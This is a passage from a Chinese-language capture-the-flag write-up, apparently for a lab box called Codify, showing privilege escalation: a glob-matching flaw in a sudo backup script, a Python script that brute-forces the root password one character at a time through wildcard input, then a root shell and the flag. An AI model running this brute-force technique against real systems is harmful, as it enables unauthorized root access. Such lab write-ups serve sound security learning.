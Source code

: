 > cat /usr/bin/cat /root/.creds

![image](https://hackmd.io/_uploads/SJ8Idl9Na.png)

```sh=19
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
```
mysql-backup.sh 可以看出DB_PASS與USER_PASS沒有經過處理。
有機會透過星號(*) 猜出root密碼。
### 8. Iteration brute-force passwd
Codify.py
```python=
import string
import subprocess
all = list(string.ascii_letters + string.digits)
# 建立all 帶有所有字母和數字的列表。
password = ""
found = False

while not found:
    for character in all:
    #迭代所有可能的字母和數字。
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        #以shell Command: sudo /opt/scripts/mysql-backup.sh測試密碼
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            #將當前字串添加到密碼中 (包括 passw*)
            password += character
            print(password)
            break
    else:
        found = True
```
>python3 codify.py

![image](https://hackmd.io/_uploads/Ski1XUjEp.png)
> kljh12k3jhaskjh12kjh3

### 9. Get Root Flag
> joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# ls
codify.py  script.py  user.txt
root@codify:/home/joshua# cd ..
root@codify:/home# whoami
root

![image](https://hackmd.io/_uploads/ryiBXIi4a.png)
> root@codify:/home# cd
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
60c48b069dd807a84cb550d574d2a885

![image](https://hackmd.io/_uploads/ByW2QIsV6.png)
> **FLAG: 60c48b069dd807a84cb550d574d2a885**

###### tags: `CTF` `Web` `nmap` `dirsearch` `ncat` `Reverse shell` `John-the-Ripper` `Privilege Escalation` `bcrypt`
